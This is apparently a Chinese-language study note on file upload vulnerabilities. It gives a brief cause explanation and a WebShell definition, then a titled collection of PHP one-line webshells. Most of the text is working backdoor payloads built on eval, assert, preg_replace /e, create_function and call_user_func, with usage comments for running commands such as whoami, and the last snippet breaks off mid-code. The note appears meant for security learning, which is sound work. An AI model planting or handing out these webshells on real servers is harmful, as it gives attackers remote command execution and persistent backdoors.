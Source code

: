 # 文件上传漏洞


# 文件上传漏洞

&gt; [参考博客](https://blog.csdn.net/qq_43390703/article/details/104858705)

## 原因

程序员在对用户文件上传部分的控制不足或者处理缺陷，而导致的用户可以越过其本身权限向服务器上上传可执行的动态脚本文件。这里上传的文件可以是木马，病毒，恶意脚本或者WebShell等

## WebShell

以**asp、php、jsp或者cgi**等网页文件形式存在的一种命令执行环境，也可以将其称之为一种网页后门。

## 一句话木马大全

&gt; 可速过

### PHP

```
&lt;?php @eval($_POST[&#39;r00ts&#39;]);?&gt; 
&lt;?php phpinfo();?&gt;
&lt;?php @eval($_POST[cmd]);?&gt;
&lt;?php @eval($_REQUEST[cmd]);?&gt;
&lt;?php assert($_REQUEST[cmd]); ?&gt;
&lt;?php //?cmd=phpinfo() @preg_replace(&#34;/abc/e&#34;,$_REQUEST[&#39;cmd&#39;],&#34;abcd&#34;); ?&gt;
&lt;?php 
//?cmd=phpinfo();
$func =create_function(&#39;&#39;,$_REQUEST[&#39;cmd&#39;]);
$func();
?&gt;

&lt;?php
//?func=system&amp;cmd=whoami
$func=$_GET[&#39;func&#39;];
$cmd=$_GET[&#39;cmd&#39;];
$array[0]=$cmd;
$new_array=array_map($func,$array);
//print_r($new_array);
?&gt;

&lt;?php 
//?cmd=phpinfo()
@call_user_func(assert,$_GET[&#39;cmd&#39;]);
?&gt;

&lt;?php 
//?cmd=phpinfo()
$cmd=$_GET[&#39;cmd&#39;];
$array[0]=$cmd;
call_user_func_array(&#34;assert&#34;,$array);
?&gt;

&lt;?php 
//?func=system&amp;cmd=whoami
$cmd=$_GET[&#39;cmd&#39;];
$array1=array($cmd);
$func =$_GET[&#39;func&#39;];
```